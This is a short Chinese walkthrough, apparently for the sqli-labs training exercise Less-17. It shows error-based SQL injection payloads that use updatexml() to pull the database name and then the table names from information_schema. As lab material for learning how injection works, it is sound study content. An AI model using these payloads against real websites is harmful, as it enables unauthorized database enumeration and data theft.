 #### 方法一

+ 首先爆破数据库名

~~~ shell
admin
1' and updatexml(1,concat(0x7e,database(),0x7e),1) #
~~~

![Less-17_1](./img/Less-17_1.PNG)

爆破得到的数据库名是"security"



+ 爆破数据表名

~~~ shell
admin
1' and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema = 'security'),0x7e),1)#
~~~
